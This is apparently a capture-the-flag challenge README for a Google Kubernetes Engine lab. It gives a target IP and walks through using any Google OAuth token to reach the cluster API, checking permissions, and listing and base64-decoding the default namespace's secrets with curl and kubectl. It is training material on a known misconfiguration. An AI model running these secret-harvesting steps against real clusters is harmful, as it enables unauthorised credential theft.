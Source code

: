 # Challenge 1: Confidential Cluster

## Introduction

> [!NOTE]
> IP address to start with: `34.139.3.217`

You received just an IP address as your very first entrypoint into the GCP project.  
The IP belongs to a Google Kubernetes Cluster (GKE) - how can you access the Kubernetes API to learn more about the cluster?


To simplify your next commands, set the IP address as an environment variable:  
#####
    export IP=<IP>

You can access the API of the cluster at this endpoint:  
#####
    curl -k https://$IP/api

As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
Most endpoints will respond with 403 permission denied.  

But what if you were in `system:authenticated`? 
Try to get a token for your own Google account using the [OAuth playground](https://developers.google.com/oauthplayground/) (select scope "Kubernetes Engine API v1").  

Set your token as environment variable to make the next commands easier to use.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

Just by supplying any Google access token you will be able to access the endpoint!  

Once you have gained access and can read from the Kubernetes API - which API resources can you query?

> [!TIP]
> Optional: You can configure kubectl to access the cluster. For instructions see [kubectl_instructions](../extras/kubectl_instructions.md)

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

It looks like you have read access to some resources on the default namespace of the cluster.  
You can also query them by using the Kubernetes API - for example:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

## Your Goal

**Discover the secrets that this cluster has in store for you.**

## Useful commands and tools:

- `curl -k https://$IP`
- `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)
- Learn more about this misconfiguration [here](https://orca.security/resources/blog/sys-all-google-kubernetes-engine-risk)

## Hints

<details>
  <summary>Hint 1</summary>

  The introduction contains a command to list pods on the cluster. You can use a similar endpoint to list other resources.  

  If you are using kubectl: You might have more success when viewing the response in json format: `... -o json`

</details>

<details>
  <summary>Hint 2</summary>

  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets
  Or when using kubectl:
  #####
    kubectl get secrets -o json
     

</details>

<details>
  <summary>Hint 3</summary>

  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

</details>
